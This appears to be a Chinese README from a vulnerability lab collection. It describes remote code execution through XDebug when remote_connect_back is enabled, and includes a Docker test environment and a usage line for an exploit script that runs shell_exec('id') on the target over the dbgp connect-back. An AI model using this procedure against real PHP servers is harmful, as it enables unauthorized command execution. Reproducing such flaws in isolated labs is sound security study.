

# XDebug 远程调试漏洞（代码执行）

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

这个配置下，我们访问`http://target/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

更多说明可参考：

 - https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface
 - https://xdebug.org

## 测试环境

编译及启动测试环境

```
docker-compose build
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可发现主页是一个简单的phpinfo，在其中可以找到xdebug的配置，可见开启了远程调试。

## 漏洞利用

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个[漏洞复现脚本](exp.py)，指定目标web地址、待执行的php代码即可：

```
# 要求用python3并安装requests库
python3 exp.py -t http://127.0.0.1:8080/index.php -c 'shell_exec('id');'
```



**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**
